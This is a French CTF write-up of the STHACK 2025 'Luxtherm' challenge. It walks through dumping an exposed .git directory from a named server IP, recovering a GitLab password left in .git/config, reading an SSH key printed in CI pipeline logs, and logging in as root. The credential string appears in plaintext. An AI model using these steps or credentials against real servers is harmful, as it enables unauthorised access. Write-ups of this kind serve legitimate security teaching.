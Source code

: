 # Luxtherm - STHACK2025

Ce writeup présente ma solution pour résoudre le challenge `Luxtherm` lors du CTF de la `STHACK 2025` le 23/05/2025.

## 🔎 Reconnaissance / Énumération

Le lien vers le site était directement fourni sur la page du challenge. Hormis un simple bouton cliquable qui ne faisait rien et un texte indiquant la date de la dernière mise en production du site, rien de suspect à première vue.

![](img/luxtherm-site.png)

En utilisant Wappalyzer, j’ai remarqué que le site était hébergé sur un serveur Apache. J’ai donc testé le chemin `/.htaccess`. Malheureusement, cela m’a retourné une erreur 403 😿.

J’ai ensuite essayé d’autres chemins courants au hasard avant de lancer une énumération plus poussée avec ffuf. Par pure chance, le chemin `.git/HEAD` était accessible 🙀.


## 📁 Dump des fichiers sur le serveur Apache

Le fait que le chemin `.git/` soit accessible nous permet de télécharger l’intégralité des fichiers du répertoire courant du serveur Apache, y compris les fichiers du dépôt Git. Ces fichiers sont particulièrement intéressants, car ils contiennent des informations sur les modifications apportées au site. Cela peut inclure des secrets laissés en clair dans le code ou d'autres étourderies des développeurs 👀.

Pour récupérer ces fichiers, j’ai utilisé [`git-dumper`](https://github.com/arthaud/git-dumper), un outil conçu spécifiquement pour exploiter ce type de vulnérabilité.

```sh
git-dumper http://51.15.214.59/.git ~/luxtherm
```

J’ai obtenu plusieurs dossiers et fichiers :

* `.git/`, contenant toutes les informations relatives au dépôt Git.
* `src/`, contenant le script de déploiement du site en prod.
* `var/www/`, contenant les sources de l’application.
* `.gitignore`, qui liste les fichiers ignorés lors des pushs sur le dépôt.
* `.gitlab-ci.yml`, contenant les instructions pour déployer automatiquement le site à chaque push via une [pipeline](https://docs.gitlab.com/ci/pipelines/).

Je me suis d’abord concentré sur le script de déploiement `script.sh` dans le dossier `src/` :

```sh
#!/bin/bash

# Arrêter le script en cas d'erreur
set -e

echo 'Creation du chemin vers la clé SSH privée'
mkdir -p "$HOME/.ssh/"

echo 'Écrire la clé SSH privée dans un fichier'
SSH_PRIVATE_KEY_PATH="$HOME/.ssh/id_rsa"
echo "$SSH_PRIVATE_KEY" > "$SSH_PRIVATE_KEY_PATH"
chmod 600 "$SSH_PRIVATE_KEY_PATH"

echo 'verification'
ls -lisah "$SSH_PRIVATE_KEY_PATH"

echo 'Informations de connexion au serveur'
SERVER_USER="root"
SERVER_IP="51.15.214.59"


# Deployer le site web
scp -r -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no var/www/html "$SERVER_USER@$SERVER_IP":/var/www/.

# Commande pour se connecter au serveur et déployer l'application
ssh -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no "$SERVER_USER@$SERVER_IP" << 'EOF'
    # Commandes à exécuter sur le serveur

    # cette synthaxe est deprecated, elle est remplacée par le scp qq lignes plus haut
    # git clone https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy

    # indication de la date du dernier déploiement
    HORODATE=$(date)
    sed -i "s@MOTIF@$HORODATE@g" /var/www/html/index.html

    # Ajoutez ici d'autres commandes nécessaires pour construire et démarrer votre application
    # Par exemple :
    # npm install
    # npm run build
    # pm2 restart all
EOF

echo 'Supprimer la clé SSH privée après utilisation'
rm "$SSH_PRIVATE_KEY_PATH"
```

Plusieurs informations intéressantes ressortent :

* L’utilisateur pour déployer le site est `root`, et a donc les privilèges les plus élevés.
* L’adresse du dépôt GitLab du projet est : `gitlab.com/root.luxtherm-group/webapp-auto-deploy`.
* Le script utilise une clé SSH lors du déploiement. Si l’on trouve cette clé dans une version précédente du projet via une erreur des développeurs (clé SSH ou fichier `.env` poussé accidentellement), nous pourrions nous connecter en SSH au compte root.

## 🔑 A la recherche de la clé SSH

J’ai commencé par utiliser `git log` pour lister tous les commits du projet :

```bash
git log

commit 0ab08cd06e26350b947341147bd9174c6ea98f8d
Author: ######
Date:   Tue May 20 22:37:28 2025 +0200

    Deploiement auto du site Luxtherm

commit a81b1787a5c8eccb4120dad9ebe9fbd32d1683d8
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:35:24 2025 +0000

    Modifier script.sh

commit e2adf9251214a15553e016b03e8568a2d0d2d1fb
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:26:44 2025 +0000

    Modifier script.sh

commit e71e6afa2acfb320817f10af3f63be03ab1402c5
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:35:05 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit 0805a52efd200f3645167eb1d99ec2483793be0d
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:30:00 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit f9da8bcf0c8a47c38a17745311634aec399174e3
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:29:31 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit a11fd1dbf19fb66ecc64baef0cda3858490aa39f
Author: ######
Date:   Tue May 20 19:24:56 2025 +0200

    Premiere version de script de deploiement

commit ef88ce29f019a182d58c43a7dcafcb04e29fac45
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:17:52 2025 +0000

    Initial commit
```

Après avoir exploré les versions précédentes du projet, je n’ai pas trouvé de clé SSH. Je me suis alors rappelé du fichier `.gitlab-ci.yml` et j’ai décidé d’examiner son contenu :

```yml
stages:
  - Deploy

job_Deploy:
  stage: Deploy
  script:
  - echo 'Pipeline de déploiement du site web en production'
  - echo 'NE PAS MODIFIER LE PIPELINE POUR QUE LE CHALLENGE RESTE JOUABLE POUR LES AUTRES, MERCI'
  - echo 'DEBUG:'$SSH_PRIVATE_KEY
  - chmod u+x src/script.sh
  - src/script.sh
```

**Bingo 🎰 !** À chaque push, la clé SSH est affichée en clair dans la console grâce à la ligne :
`echo 'DEBUG:'$SSH_PRIVATE_KEY`.

Direction le dépôt GitLab pour vérifier les traces d’exécution des pipelines !

Malheureusement encore une fois, je me retrouve face à une erreur 403 ...

Pas le choix le dépôt étant privé et donc accessible uniquement avec le compte de son utilisateur, il va falloir trouver son login/mdp.

Je me suis alors mis à fouiller tout les fichiers dumpés jusqu'à tomber sur le fichier `.git/config` : 
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
#root.luxtherm@gmail.com:********	
	url = https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
Ce fichier contient normalement seulement des informations sur les branches, les remotes, et d'autres paramètres liés au comportement de Git avec le dépôt. Or, par chance (pour nous) le développeur ayant travaillé sur le projet a laissé son login/mdp en commentaire. 😈

On peut désormais se connecter au compte de luxther et accéder au dépôt Gitlab.

## 📦 Balade sur le dépôt Git

Comme prévu, les fichiers déjà récupérés sont présents.

![](img/Luxtherm-git-1.png)

En examinant les exécutions de pipeline, je suis tombé sur une exécution réussie avec un job "passant".

![](img/Luxtherm-git-3.png)

Et voilà ! La clé SSH était affichée en clair. Il ne restait plus qu’à la reformater correctement et à l’ajouter dans le dossier `.ssh/`.


En me connectant en SSH avec la commande :

```bash
ssh root@51.15.214.59
```

J’ai accédé au serveur en tant que root. Le flag était alors facile à récupérer 😄.
